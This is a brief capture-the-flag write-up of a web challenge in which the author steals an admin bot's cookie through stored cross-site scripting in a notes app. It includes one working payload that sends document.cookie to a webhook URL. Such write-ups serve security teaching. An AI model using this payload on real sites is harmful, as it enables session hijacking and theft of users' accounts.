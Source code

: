 
#### Overview

This was an easy web challenge that involved a XSS(Cross-site scripting) attack. The set up was a web application that allowed users to register an account to log in and post notes. Additionally, there was an admin bot page in which the admin bot would visit the page url we gave it. Looking through the source code, I found that the flag was set as the cookie of the admin bot. So the goal was to craft a XSS attack to steal its cookie.
![ceo_1](/L3akCTF2024/images/ceo_1.png)


#### Approach

In order to craft the XSS attack, I used `webhook` to generate a web server that allowed me to monitor the logs to this remote web server. I then made a post with a payload that would log the visiting browser's cookie: `<script>document.write('<img src=“[webhook_URL]?c='+document.cookie+'" />');</script>`. What this payload does is that the browser will try to get the image from the image source to display on the page, which will actually direct it to the malicious web server that will get its cookie and store the cookie into a parameter named "c".
![ceo_2](/L3akCTF2024/images/ceo_2.png)

The final step was to give the admin bot the url to the post with my malicious payload so that it would execute the script.
![ceo_3](/L3akCTF2024/images/ceo_3.png)


#### Solution

When I went back to webhook, I was able to see the request from the admin bot and get the flag from the "c" parameter.
![ceo_4](/L3akCTF2024/images/ceo_4.png)

